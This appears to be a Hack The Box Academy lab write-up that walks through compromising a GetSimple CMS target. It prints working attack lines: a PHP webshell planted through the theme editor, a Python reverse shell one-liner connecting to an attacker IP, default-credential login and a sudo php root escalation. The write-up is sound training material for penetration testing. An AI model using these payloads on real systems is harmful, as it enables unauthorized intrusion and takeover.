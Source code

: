# Knowledge Check  

[Getting Started - Knowledge Check](https://academy.hackthebox.com/module/77/section/859)  

## Service Scanning  

>The `-sC` parameter to specify that Nmap scripts should be used to try and obtain more detailed information. 
>The `-sV` parameter instructs Nmap to perform a version scan.
>In this scan, Nmap will fingerprint services on the target system and identify the service protocol, application name, and version. The version scan is underpinned by a comprehensive database of over 1,000 service signatures.
>Finally, `-p-` tells Nmap that we want to scan all 65,535 TCP ports.
>[Service Scanning](https://academy.hackthebox.com/module/77/section/726)  

```
sudo nmap -sCV -A -O 10.129.42.249
```  

>NMAP Output  

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
```  

## Web Enumeration  

>Open the target on port 80 site `http://10.129.42.249/` in Firefox browsers.  

![getting-started-web-enum](/images/getting-started-web-enum.PNG)  

>Add the DNS host name to `/etc/hosts`.

```
sudo vi /etc/hosts
```  

>Check content of `Robots.txt` file on target web application.

```
curl http://gettingstarted.htb/robots.txt
```

>Output confirm path `/admin`.  

>Grab web banners.  

```
curl -IL http://gettingstarted.htb/admin/index.php
```  

```
whatweb http://gettingstarted.htb/admin/index.php
```  

>Test `/admin` web path discovered from nmap scan.
>On admin login portal test default credentials `admin:admin` as username and password.

>Identified the version of web application as `GetSimple CMS 3.3.15`.

## Public Exploits  

>Searching for working exploit.  
>[Finding Public Exploits](https://academy.hackthebox.com/module/77/section/843) doing online research and examining the target services identified.  

>Using `searchsploit` on kali.

```
searchsploit GetSimple CMS 3.3
```  

>Google Search `getsimple cms rce` for Remote Code Execution exploits in GetSimple CMS.  

[GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)  

### MetaSploit

>Search msfconsole for exploits.

```
sudo msfconsole
search getsimple cms

use exploit/unix/webapp/get_simple_cms_upload_exec
```

>Failed to gain working exploit with MSFConsole. 

## Shells  

>Web Application Edit Theme  
>Enumerating the target application finding the Edit Theme is php code.
>Replace the theme with PHP webshell - [Types of Shells](https://academy.hackthebox.com/module/77/section/725)  

```
<?php system($_REQUEST["cmd"]); ?>
```

>Insert above into the theme editor code.

![get-simple-theme-edit-rce](/images/get-simple-theme-edit-rce.png)  

>Save the theme and go back to landing page to test webshell RCE.

![get-simple-webshell-rce](/images/get-simple-webshell-rce.png)  

>Webshell commands to enumerate target.  

```
http://gettingstarted.htb/?cmd=whoami
http://gettingstarted.htb/?cmd=which+python3
```

### Python3 Reverse Shell  

>Identified Python3 on target, and setting up for reverse shell.
>Netcat on port 443.

```
rlwrap nc -nvlp 443
```

>Send webshell command through burp proxy, to encode the Python3 Reverse Shell code.  

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.140",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![burp-proxy-encode-python3-revshell](/images/burp-proxy-encode-python3-revshell.png)  

>Located the user level flag, `cat /home/mrb3n/user.txt`  

## Privilege Escalation  

>Obtained low privilege access to the target as non root/admin user.  

>[PrivEsc Checklists](https://academy.hackthebox.com/module/77/section/844):  

1. Enumeration Scripts
2. Kernel Exploits
3. Vulnerable Software
4. User Privileges/Permissions
5. Scheduled Tasks
6. Exposed Credentials
7. SSH Keys  

>Enumeration of the local target and user Privileges or Permissions.  

```
sudo -l
```  

>Output from sudo check.

```
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```  

>Look for ways to exploit it to get a shell as the root user, using the [GTFObins resources](https://gtfobins.github.io/)  

>Sudo Exploit with [PHP privileges](https://gtfobins.github.io/gtfobins/php/#sudo)

```
CMD="/usr/bin/bash"
sudo php -r "system('$CMD');"
```

>Root privilege access obtained.

>located the root user flag file, `cat /root/root.txt`

## Appendix  

>No file transfer to the target was required to exploit or obtained privileges.

>[Transferring Files](https://academy.hackthebox.com/module/77/section/849)



